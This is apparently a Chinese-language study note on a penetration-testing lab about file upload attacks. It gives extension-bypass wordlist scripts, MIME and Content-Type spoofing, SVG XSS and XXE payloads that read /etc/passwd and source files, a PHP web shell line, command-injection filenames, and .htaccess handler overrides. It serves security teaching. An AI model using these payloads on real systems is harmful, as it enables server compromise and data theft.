我们来讨论另一种绕过白名单验证的方法： Character Injection 。我们可以**在文件名的最终扩展名前后注入几个字符**，使 Web 应用程序错误地解释文件名，并将上传的文件当作 PHP 脚本执行。

以下是一些我们可以尝试注入的字符：

```
%20
%0a
%00
%0d0a
/
.
.\
…
:
```

每个字符都有其特定的用途，可以欺骗 Web 应用程序，使其错误地解释文件扩展名。

例如，

( shell.php%00.jpg ) 适用于 PHP 5.X 或更早版本的服务器，因为它会导致 PHP 服务器在 ( %00 ) 之后结束文件名，并将其存储为 ( shell.php )，同时仍然通过白名单验证。

同样的方法也适用于托管在 Windows 服务器上的 Web 应用程序，只需在允许的文件扩展名前插入一个冒号 ( : )（例如 shell.aspx:.jpg ），这样文件也会被写入为 ( shell.aspx )。类似地，其他每个字符也都有其用途，可以让我们上传 PHP 脚本并绕过类型验证。

* 添加尾随字符。某些组件会删除或忽略尾随空格、点等字符： exploit.php.
* 尝试对点、正斜杠和反斜杠使用 URL 编码（或双重 URL 编码）。如果在验证文件扩展名时未解码该值，但之后在服务器端解码，这也可能允许您上传原本会被阻止的恶意文件： exploit%2Ephp
* 在文件扩展名前添加分号或 URL 编码的空字节字符。如果验证代码是用 PHP 或 Java 等高级语言编写的，但服务器使用 C/C++ 等低级函数处理文件，则可能会导致文件名结尾出现差异： exploit.asp;.jpg 或 exploit.asp%00.jpg
* 尝试使用多字节 Unicode 字符，这些字符在 Unicode 转换或规范化后可能会被转换为空字节和点。如果文件名被解析为 UTF-8 字符串，则像 xC0 x2E 、 xC4 xAE 或 xC0 xAE 的序列可能会被转换为 x2E ，但在用于路径之前会被转换为 ASCII 字符。
* 其他防御措施包括剥离或替换危险的扩展名，以防止文件被执行。如果此转换不是递归应用的，则可以将禁用的字符串放置在适当的位置，以便在删除后仍保留有效的文件扩展名。例如，考虑一下如果从以下文件名中剥离 .php 会发生什么情况 `：exploit.p.phphp`

我们可以编写一个简单的 bash 脚本，生成文件名的所有排列组合，其中上述字符将分别插入到 PHP 和 JPG 扩展名的前后，如下所示：

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

利用这份自定义字典，我们可以像之前那样，使用 Burp Intruder 进行模糊测试。如果后端或 Web 服务器版本过旧或存在某些配置错误，生成的某些文件名可能会绕过白名单测试并执行 PHP 代码。

> 练习： 尝试向上述脚本添加更多 PHP 扩展以生成更多文件名排列，然后使用生成的单词列表模糊上传功能，以查看哪些生成的文件名可以上传，哪些可以在上传后执行 PHP 代码。

面对黑白名单结合的防御，第一原则是：白名单是无法直接违背的“硬规则”，黑名单是需要被混淆的“软规则”。

#### 练习:

上述练习使用黑名单和白名单测试来阻止不需要的文件扩展名，只允许图像文件扩展名。尝试绕过这两个限制，上传一个 PHP 脚本并执行代码来读取“/flag.txt”文件。

##### 1.测试允许的扩展名



后台有白名单和黑名单,他有3种响应,当不是image格式的文件时,显示Only images are allowed

当有黑名单的后缀时,提示Extension not allowed ,当通过过滤时,显示File successfully uploaded



##### 2.测试双扩展名绕过



.php .php2 .php3 .php4 .php5 .php6 .php7 .phps 可见是黑名单,还有一些可以测试的是.phtml .pht .phar .phpt .inc.cgi .pl .asp .aspx



尝试访问这些是否存在双扩展名绕过的漏洞



都不能执行

##### 3.测试字符注入绕过

```bash
exts=('.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm')
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in "${exts[@]}"; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

> 注意访问时,将%进行url编码,



upload.php源码

```php
<?php
$target_dir = "./profile_images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

if (strpos($fileName, '.php') !== false) {
    echo "Extension not allowed";
    die();
}

if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}

```

script.js

```javascript
function checkFile(File) {
  var file = File.files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
  } else {
    if (file) {
      var reader = new FileReader();
      reader.onload = function (e) {
        $('#profile-image').attr('src', e.target.result);
      }
      reader.readAsDataURL(file);
    }
  }
}

$(document).ready(function () {
  $("#submit").click(function (event) {
    event.preventDefault();
    var fd = new FormData();
    var files = $('#uploadFile')[0].files[0];
    fd.append('uploadFile', files);

    $.ajax({
      url: 'upload.php',
      type: 'post',
      data: fd,
      contentType: false,
      processData: false,
      success: function (response) {
        if (response.trim() != '') {
          $("#error_message").text(response);
        } else {
          window.location.reload();
        }
      },
    });
  });
});
```

Apache2 Web 服务器的 /etc/apache2/mods-enabled/php7.4.conf的配置

```xml

<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
    # Deny access to raw php sources by default
    # To re-enable it's recommended to enable access to the files
    # only in specific virtual host or directory
    Require all denied
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.ph(ar|p|ps|tml)$">
    Require all denied
</FilesMatch>

# Running PHP scripts in user directories is disabled by default
# 
# To re-enable PHP in user directories comment the following lines
# (from <IfModule ...> to </IfModule>.) Do NOT set it to On as it
# prevents .htaccess files from disabling it.
<IfModule mod_userdir.c>
    <Directory /home/*/public_html>
        php_admin_flag engine Off
    </Directory>
</IfModule>
```

## Content-Type文件类型过滤

提交 HTML 表单时，浏览器通常会使用内容类型 application/x-www-form-urlencoded 的 POST 请求来发送提供的数据。这种方式适合发送简单的文本，例如您的姓名或地址。但是，它不适合发送大量二进制数据，例如整个图像文件或 PDF 文档。在这种情况下，内容类型 multipart/form-data 是首选。

假设有一个表单，其中包含用于上传图片、提供图片描述以及输入用户名的字段。提交这样的表单可能会产生如下请求:

```http
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

如您所见，消息正文针对每个表单输入拆分成单独的部分。每个部分都包含一个 Content-Disposition 标头，该标头提供了与其相关的输入字段的一些基本信息。这些单独的部分还可能包含各自的 Content-Type 标头，该标头告知服务器使用此输入提交的数据的 MIME 类型。

网站尝试验证文件上传的一种方式是检查此输入特定的 Content-Type 标头是否与预期的 MIME 类型匹配。例如，如果服务器仅期望图像文件，则可能只允许 image/jpeg 和 image/png 等类型。当服务器隐式信任此标头的值时，可能会出现问题。如果没有执行进一步的验证来检查文件内容是否与预期的 MIME 类型匹配，则可以使用 Burp Repeater 等工具轻松绕过此防御措施。



我们可以看到返回了一条提示信息：仅允许上传图片。
即使我们尝试使用前面章节中学到的一些绕过技巧，这条错误提示依然存在，文件上传仍然失败。
如果我们将文件名修改为 shell.jpg.phtml 或 shell.php.jpg，甚至使用图片文件名 shell.jpg 但内容是webshell，上传依然会失败。
由于文件扩展名不会影响错误提示，说明该 Web 应用必定是在检测文件内容来进行类型校验。
正如前面提到的，这种校验可能是检查 **Content-Type** 请求头，也可能是**检查文件实际内容**。

以下是 PHP Web 应用程序如何测试 Content-Type 标头以验证文件类型的示例：

```php

$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}

```

这段代码会根据上传文件的 `Content-Type `标头设置变量 `$type` 。我们的浏览器会在用户通过文件选择对话框选择文件时**自动设置 Content-Type 标头**，通常情况下，该标头的值来源于文件扩展名。然而，由于此设置是由浏览器完成的，因此这是一个客户端操作，我们可以对其进行修改，从而改变浏览器对文件类型的识别，甚至绕过类型过滤器。

我们可以先使用 Burp Intruder 和 SecLists 的 [Content-Type 字典](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)对 Content-Type 标头进行模糊测试，以确定允许哪些类型。然而，消息表明只允许图像类型，因此我们可以将扫描范围限制在图像类型上，这样字典就只包含 45 类型（而最初大约有 700 种）。我们可以按如下方式操作：

```shell
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

* [ ] 练习： 尝试运行上述扫描来找出允许的内容类型。

为了简单起见，我们只需选择一种图像类型（例如 image/jpg ），然后拦截我们的上传请求并将 Content-Type 标头更改为该类型：


这次我们收到了 File successfully uploaded ，如果我们访问该文件，可以看到它确实已成功上传：

> 注意：文件上传的 HTTP 请求包含两个 **Content-Type** 请求头，一个是针对附件文件的（位于请求体中），另一个是针对整个请求的（位于请求头中）。
> 我们通常需要修改**文件对应的 Content-Type**，但在某些情况下，请求只会包含主 Content-Type 请求头（例如上传内容以 POST 数据形式发送时），这时就需要修改主 Content-Type 请求头。

## MIME-Type过滤绕过

第二种也是更常见的文件内容验证方式是测试上传文件的 MIME-Type 。 Multipurpose Internet Mail Extensions (MIME) 是一种互联网标准，它通过文件的通用格式和字节结构来确定文件的类型。

通常的做法是检查文件内容的前几个字节，其中包含[文件签名](https://en.wikipedia.org/wiki/List_of_file_signatures)或 “[魔术字](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)” 。例如，如果文件以 GIF87a 或 GIF89a 开头，则表示它是 GIF 图像；而以纯文本开头的文件通常被认为是 Text 文件。如果我们把任何文件的开头几个字节替换成 GIF 的魔数，那么无论其剩余内容或扩展名如何，其 MIME 类型都会更改为 GIF 图像。

> 提示： 许多其他图像类型的文件签名都包含不可打印字节，而 GIF 图像则以 ASCII 可打印字节开头（如上所示），因此最容易模仿。此外，由于字符串 GIF8 在两种 GIF 签名中都存在，通常只需要伪造这部分就足以伪装成 GIF 图片

我们举个简单的例子来说明这一点。在 Unix 系统中， file 命令通过 MIME 类型来判断文件类型。如果我们创建一个包含文本的简单文件，它将被视为文本文件，如下所示：

```shell
$ echo "this is a text file" > text.jpg 
$ file text.jpg 
text.jpg: ASCII text
```

正如我们所见，该文件的 MIME 类型是 ASCII text ，即使其扩展名为 .jpg 。但是，如果我们在文件开头写入 GIF8 ，它将被视为 GIF 图像，即使其扩展名仍然是 .jpg ：

```shell
$ echo "GIF8" > text.jpg 
$ file text.jpg
text.jpg: GIF image data
```

Web 服务器也可以利用此标准来确定文件类型，这通常比检查文件扩展名更准确。以下示例展示了 PHP Web 应用程序如何检查上传文件的 MIME 类型：

```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

正如我们所见，MIME 类型与 Content-Type 标头中的类型类似，但它们的来源不同，因为 PHP 使用 mime_content_type() 函数来获取文件的 MIME 类型。让我们尝试重复上次的攻击，但这次要同时测试 Content-Type 标头和 MIME 类型：



转发请求后，我们注意到收到错误消息 Only images are allowed 。现在，让我们尝试在 PHP 代码前添加 GIF8 ，以模拟 GIF 图片，同时保持文件扩展名仍然是 .php ，这样 PHP 代码就能正常执行：

这次我们收到了 File successfully uploaded 提示，文件已成功上传到服务器：

现在我们可以访问我们上传的文件，并且我们将看到我们可以成功执行系统命令：

> 注意： 我们看到命令输出以 GIF8 开头，因为这是我们 PHP 脚本中模仿 GIF 魔数字节的第一行，现在在我们的 PHP 代码执行之前以纯文本形式输出。

我们可以结合本节讨论的**两种方法**一起使用，这有助于绕过一些更严格的内容过滤机制。例如，我们可以尝试使用**允许的MIME类型搭配不允许的Content-Type**、**允许的MIME/Content-Type搭配不允许的扩展名**，或是**不允许的MIME/Content-Type搭配允许的扩展名**等方式。同样，我们也可以尝试其他组合与排列，尝试迷惑Web服务器。根据代码的安全防护程度，我们有可能绕过各类过滤规则。

### 练习

本服务器采用客户端过滤、黑名单过滤、白名单过滤、内容类型过滤和 MIME 类型过滤来确保上传的文件是图像。尝试结合你目前为止学到的所有攻击方法来绕过这些过滤，上传一个 PHP 文件并读取“/flag.txt”中的 flag。

1.测试黑名单

为了减少请求,默认他是php脚步服务器,使用php支持的所有后缀进行测试

```txt
php php5 php4 php7 phtml phps pht phar phpt inc php3 cgi pl asp aspx
```

可以看到有一部分未被列入黑名单 `phtml pht phar inc`



2.生成字符注入列表

```bash
for char in '%20' '.' '...' '/' '%0a' '%0d0a' '.\\' '%00' ':'; do
		for ext in 'phtml' 'pht' 'phar' 'inc'; do
				echo "shell.png$char.$ext" >> wordlist.txt
				echo "shell.$ext$char.png" >> wordlist.txt
				echo "shell$char$ext.png" >> wordlist.txt
				echo "shell.png.$ext$char" >> wordlist.txt
		done
done

```

发现只添加webshell的话,后端除了验证miei类型,还会验证文件完整,尝试将 webshell写到图片文件的末尾



z和ihou寻找能执行代码的位置,



尝试看看upload.php 源码

```php
‚<?php
$target_dir = "./profile_images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (strpos($fileName, '.php') !== false) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}

```

发现并没有检测其他的内容,重新查看上传的文件,发现有一个在pretty 模式下的不可见字符,导致校验失败



# 引入其他的漏洞

到目前为止，我们主要讨论的是如何绕过过滤器，通过存在漏洞的 Web 应用程序上传任意文件，这也是本模块目前阶段的重点。虽然一些过滤器较弱的文件上传表单可以被利用来上传任意文件，但有些上传表单的过滤器非常安全，我们讨论的技术可能无法利用这些过滤器。然而，即使我们面对的是一个功能受限（即非任意）的文件上传表单，它只允许上传特定类型的文件，我们仍然有可能对该 Web 应用程序发起一些攻击。

某些文件类型，例如 `SVG` 、 HTML 、 `XML` ，甚至一些图像和文档文件，都可能允许我们通过上传这些文件的恶意版本，为 Web 应用程序引入新的漏洞。因此，模糊测试允许的文件扩展名对于任何文件上传攻击都至关重要。它使我们能够探索 Web 服务器上可能存在的攻击。那么，让我们来探讨其中的一些攻击。

## XSS跨站脚本

许多文件类型可能允许我们通过上传恶意构造的版本，向 Web 应用程序引入 `Stored XSS`漏洞。

最基本的例子是当一个 Web 应用程序允许我们上传 `HTML`文件时。虽然 HTML 文件本身不允许用户执行代码（例如 PHP），但仍然可以在其中植入 `JavaScript`代码，从而对访问该 HTML 页面的用户发起 `XSS` 或 `CSRF `攻击。如果目标用户看到来自他们信任的网站的链接，而该网站又存在 HTML 文档上传漏洞，那么攻击者就有可能诱骗他们点击该链接，并在他们的计算机上实施攻击。

XSS 攻击的另一个例子是那些在图片上传后显示其元数据的 Web 应用程序。对于这类 Web 应用程序，我们可以将 XSS 有效载荷嵌入到接受纯文本的元数据参数中，例如 `Comment` 或 Artist 参数，如下所示：

```shell
$ exiftool -Comment=' ">' xss.jpg
$ exiftool xss.jpg
...SNIP...
Comment                         :  ">
```

我们可以看到， `Comment `参数已更新为我们的 XSS 有效载荷。当图像的元数据显示时，XSS 有效载荷将被触发，并执行 JavaScript 代码以实施 XSS 攻击。此外，如果我们把图像的 MIME 类型更改为 `text/html `，一些 Web 应用程序可能会将其显示为 HTML 文档而不是图像，在这种情况下，即使元数据没有直接显示，XSS 有效载荷也会被触发。

最后，除了其他几种攻击方式外，XSS 攻击也可以利用 `SVG `图像进行。 Scalable Vector Graphics (SVG) 图像基于 XML，用于描述二维矢量图形，浏览器会将这些图形渲染成图像。因此**，我们可以修改其 XML 数据，使其包含 XSS 有效载荷**。例如，我们可以向 xss.svg 写入以下内容：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

一旦我们将图像上传到 Web 应用程序，每当显示该图像时，XSS 有效载荷就会被触发。

> 练习： 使用本节末尾的练习尝试上述攻击，并查看 XSS 负载是否被触发并显示警报。

## XML 外部实体注入

类似的攻击也可用于 XXE 漏洞利用。利用 SVG 图像，我们还可以嵌入恶意 XML 数据，从而泄露 Web 应用程序的源代码以及服务器内部的其他文档。以下示例展示了如何使用 SVG 图像泄露 /etc/passwd 文件的内容：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

一旦上传并查看上述 SVG 图像，XML 文档就会被处理，我们应该能在页面上看到（ /etc/passwd ）的信息，或者在页面源代码中看到相关信息。同样地，如果 Web 应用程序允许上传 `XML` 文档，那么当 `XML`数据在 Web 应用程序上显示时，，那么当 XML 数据在应用中被展示时，相同的 Payload 也能实现同样的攻击。

虽然读取诸如 /etc/passwd 这类系统文件对于服务器信息收集非常有用，但在Web 渗透测试中它能带来更大价值 —— 因为这能让我们读取 Web 应用的源码文件。
**获取源码后，我们就可以通过白盒渗透测试，在 Web 应用内部挖掘更多可利用的漏洞**。
在文件上传漏洞利用中，这还能帮助我们定位上传目录、识别允许的文件扩展名，或找到文件命名规则，这些信息对后续进一步利用漏洞都非常关键。

要使用 XXE 读取 PHP Web 应用程序中的源代码，我们可以在 SVG 图像中使用以下有效负载：

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

SVG 图像显示后，我们应该能获取 index.php 的 base64 编码内容，然后对其进行解码以读取源代码。有关 XXE 的更多信息，请参阅 Web 攻击模块。

使用 XML 数据并非 SVG 图像独有，许多其他类型的文档，例如 PDF 、 Word Documents 、 PowerPoint Documents 等，也都使用 XML 数据来指定其格式和结构。假设某个 Web 应用程序使用的文档查看器存在 XXE 漏洞，并且允许用户上传上述任何文档。在这种情况下，我们也可以修改这些文档的 XML 数据，使其包含恶意 XXE 元素，从而对后端 Web 服务器发起盲 XXE 攻击。

另一种类似的攻击方式是 SSRF 攻击，这种攻击也可以通过这些文件类型实现。我们可以利用 XXE 漏洞枚举内部可用的服务，甚至调用私有 API 来执行私有操作。有关 SSRF 的更多信息，请参阅服务器端攻击模块。

## DOS攻击

最后，许多文件上传漏洞可能导致对 Web 服务器的 Denial of Service (DOS) 攻击。例如，我们可以使用之前在 “Web 攻击” 模块中讨论的 XXE 有效载荷来实现 DoS 攻击。

此外，我们还可以利用 Decompression Bomb 攻击使用数据压缩的文件类型，例如 ZIP 压缩包。如果 Web 应用程序自动解压缩 ZIP 压缩包，则可能上传包含嵌套 ZIP 压缩包的恶意压缩包，最终导致数 PB 级的数据泄露，进而造成后端服务器崩溃。

另一种可能的拒绝服务攻击是 Pixel Flood 攻击，它利用了某些使用图像压缩技术的图像文件，例如 JPG 或 PNG 。我们可以创建任意大小（例如 500x500 ）的 JPG 图像文件，然后手动修改其压缩数据，使其大小变为 ( 0xffff x 0xffff )，这样生成的图像看起来就有 4 吉像素的大小。当 Web 应用程序尝试显示该图像时，它会尝试将所有内存分配给该图像，从而导致后端服务器崩溃。

除了上述攻击之外，我们还可以尝试其他一些方法来对后端服务器发起拒绝服务攻击 (DoS)。一种方法是上传过大的文件，因为某些上传表单可能没有限制文件大小，或者在上传前不会检查文件大小，这可能会填满服务器的硬盘空间，导致服务器崩溃或运行速度大幅下降。

如果上传功能存在目录遍历漏洞，我们还可以尝试将文件上传到其他目录（例如 ../../../etc/passwd），这也可能导致服务器崩溃。请尝试搜索更多通过存在漏洞的文件上传功能实现 ** 拒绝服务攻击（DOS）** 的案例。

## 练习

练习包含一个上传功能，该功能应该能够防止任意文件上传。请尝试使用本节中所示的攻击方法之一来读取“/flag.txt”文件。

> 使用可以读取文件的攻击，并且不要忘记检查页面源代码！

查看练习的页面源码,提示可以上传svg的图片

```shell
 echo '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>' >>flag.svg

```

生成一个svg文件,上传后,查看页面的源代码



练习2:

请尝试阅读 'upload.php' 的源代码，找到上传目录，并使用该目录名称作为答案。（请完全按照源代码中的原样填写，无需加引号）

使用以下代码

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

读取返回的页面源码



之后用base664解码

```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}

```

## 文件名中的注入

一种常见的文件上传攻击会使用恶意字符串作为上传文件名，如果上传的文件名显示在页面上（即被页面反射），则该恶意字符串可能会被执行或处理。我们可以尝试在文件名中注入命令，如果 Web 应用程序在操作系统命令中使用了该文件名，则可能导致命令注入攻击。

例如，如果我们把文件命名为 file$(whoami).jpg 或 file `whoami`.jpg 或 file.jpg||whoami ，然后 Web 应用程序尝试使用操作系统命令（例如 mv file /tmp ）移动上传的文件，那么我们的文件名就会注入 whoami 命令，该命令会被执行，从而导致远程代码执行。您可以参考 “命令注入” 模块了解更多信息。

类似地，我们可以在文件名中植入 XSS 攻击载荷（例如 <script>alert(window.origin);</script> ），如果目标用户看到该文件名，该载荷就会在其机器上执行。我们还可以在文件名中注入 SQL 查询语句（例如 file';select+sleep(5);--.jpg ），如果文件名在 SQL 查询中被不安全地使用，则可能导致 SQL 注入。

## 上传目录披露

在某些文件上传表单中，例如反馈表单或提交表单，我们可能无法访问已上传文件的链接，也可能无法知道上传目录。在这种情况下，我们可以使用模糊测试来查找上传目录，甚至可以利用其他漏洞（例如 LFI/XXE）通过读取 Web 应用程序源代码来查找上传文件的位置，就像我们在上一节中看到的那样。此外， Web 攻击/IDOR 模块讨论了查找文件存储位置和识别文件命名方案的各种方法。

另一种获取上传目录的方法是强制发送错误信息，因为错误信息通常会泄露有助于进一步攻击的信息。我们可以利用的攻击手段之一是上传一个同名文件，或者同时发送两个相同的请求。这可能会导致 Web 服务器显示无法写入文件的错误，从而泄露上传目录。我们还可以尝试上传一个文件名过长的文件（例如，5000 个字符）。如果 Web 应用程序无法正确处理这种情况，也可能会报错并泄露上传目录。

同样，我们也可以尝试其他各种技术，使服务器出错并泄露上传目录以及其他有用的信息。

# 针对 Windows 系统的攻击

我们还可以使用一些 Windows-Specific 技术来应对我们在前面章节中讨论的一些攻击。\

其中一种攻击方式是使用保留字符，例如（ | 、 < 、 > 、 * 或 ? ），这些字符通常用于特殊用途，例如通配符。如果 Web 应用程序没有正确地清理这些名称或将其用引号括起来，它们可能会指向另一个文件（该文件可能不存在），从而导致错误并泄露上传目录。类似地，我们可以使用 Windows 保留名称作为上传文件名，例如（ CON 、 COM1 、 LPT1 或 NUL ），这也可能导致错误，因为 Web 应用程序不允许写入具有此名称的文件。

最后，我们可以利用 Windows 8.3 的文件名约定来覆盖现有文件或引用不存在的文件。旧版本的 Windows 对文件名长度有限制，因此使用波浪号 ( ~ ) 来补全文件名，我们可以利用这一点。

例如，要引用名为（hackthebox.txt）的文件，我们可以使用（HAC~1.TXT）或（HAC~2.TXT），其中的数字表示以（HAC）开头的匹配文件的顺序。由于 Windows 仍然支持这种格式，我们可以写入一个名为（例如 WEB~1.CON）的文件来覆盖 web.conf 文件。同样，我们也可以写入文件来替换敏感的系统文件。这种攻击可能导致多种后果，比如通过报错造成信息泄露、使后端服务器出现拒绝服务（DoS），甚至访问私密文件。

# 高级文件上传攻击

任何对上传文件进行的自动处理，例如视频编码、文件压缩或文件重命名，如果代码编写不安全，都可能被利用。一些常用库可能存在针对此类漏洞的公开漏洞利用程序，例如 ffmpeg 中的 AVI 上传漏洞会导致 XXE 攻击。然而，当使用自定义代码和自定义库时，检测此类漏洞需要更高级的知识和技术，这可能会导致在某些 Web 应用程序中发现更高级的文件上传漏洞。

## 绕过防止在用户可访问的目录中执行文件

虽然首先阻止上传危险文件类型显然更好，但第二道防线是阻止服务器执行任何漏网的脚本。

为安全起见，服务器通常只运行已明确配置为执行的 MIME 类型的脚本。否则，它们可能只会返回某种错误消息，或者在某些情况下，直接以纯文本形式提供文件内容：

```http
GET /static/exploit.php?command=id HTTP/1.1
    Host: normal-website.com


    HTTP/1.1 200 OK
    Content-Type: text/plain
    Content-Length: 39

    <?php echo system($_GET['command']); ?>
```

这种行为本身就很有趣，因为它可能提供一种泄露源代码的方法，但它会使任何创建 Web Shell 的尝试无效。这类配置在不同目录之间通常存在差异。
用于上传用户提供文件的目录，往往会比文件系统中其他终端用户理应无法访问的位置拥有严格得多的控制策略。
如果你能找到方法，把脚本上传到另一个本不应存放用户文件的目录，服务器最终仍有可能执行你的脚本。

您还应该注意，即使您可能将所有请求发送到同一个域名，这通常也指向某种反向代理服务器，例如负载均衡器。您的请求通常会由后台的其他服务器处理，这些服务器的配置也可能有所不同。

## 覆盖服务器配置

服务器通常不会执行文件，除非经过专门配置才会这样做。
例如，在 Apache 服务器执行客户端请求的 PHP 文件之前，开发者通常需要在 /etc/apache2/apache2.conf 文件中添加类似下面的配置指令：

```xml
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

许多服务器还允许开发人员在各个目录中创建特殊的配置文件，以便覆盖或添加一个或多个全局设置。例如，Apache 服务器会从名为 .htaccess 的文件（如果存在）加载特定于目录的配置。

类似地，开发人员可以使用 web.config 文件在 IIS 服务器上进行特定于目录的配置。这可能包括如下指令，在本例中，这些指令允许将 JSON 文件提供给用户：

```txt
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

Web 服务器会在存在此类配置文件时使用这些文件，但通常不允许使用 HTTP 请求访问它们。不过，偶尔也会发现服务器无法阻止您上传自己的恶意配置文件。在这种情况下，即使您需要的文件扩展名被列入黑名单，您仍然可以诱骗服务器将任意自定义文件扩展名映射到可执行的 MIME 类型。

### .htaccess 进行文件上传绕过

要利用 .htaccess 进行文件上传绕过，目标服务器必须同时满足以下三个苛刻的条件：

1. Web 容器必须是 Apache。（Nginx 或 IIS 不认识这个文件，Nginx 对应的是 .user.ini）。
2. 开启了目录配置重写：Apache 的主配置文件 httpd.conf 中，对应目录的 AllowOverride 指令不能是 None。必须配置为 AllowOverride All（或至少包含 FileInfo 权限），这样 Apache 才会去读取并执行目录下 .htaccess 中的指令。
3. 上传黑名单遗漏：后端的上传过滤代码使用了黑名单（如禁止了 php, jsp, asp），但没有把 .htaccess 加入黑名单；并且在保存文件时，没有强制重命名文件，允许以 .htaccess 原名落地。

如果您成功传上了 .htaccess，可以在文件里写入以下几种常见的配置指令（Payload）：

1. AddType (全局类型映射)
   这是最常用的一种。它的作用是告诉 Apache，把特定的后缀名当作 PHP 代码来解析。
   效果：只要在这个目录下，任何以 .jpg 结尾的文件都会被移交给 PHP 解释器执行。

```apache
AddType application/x-httpd-php .jpg .png
```

2. SetHandler (特定文件处理)
   比 AddType 更精准。配合 <FilesMatch> 标签，强制指定某个特定的文件被当作 PHP 执行。
